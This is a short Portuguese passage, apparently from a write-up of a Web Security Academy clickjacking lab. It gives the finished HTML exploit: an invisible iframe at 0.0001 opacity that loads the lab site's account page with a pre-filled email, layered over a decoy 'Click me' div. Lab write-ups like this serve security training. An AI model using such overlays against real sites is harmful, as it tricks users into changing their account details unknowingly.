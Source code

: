 ![botão](url_botao.png)

No final não podemos esquecer de alterar a opacidade do `iframe` para 0.0001, para que ele fique invisível.

No final teremos o seguinte código:

```html

<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ac5001603e1731dc069dba500e20009.web-security-academy.net/my-account?email=sonael@sonaelneto.com"></iframe>

```
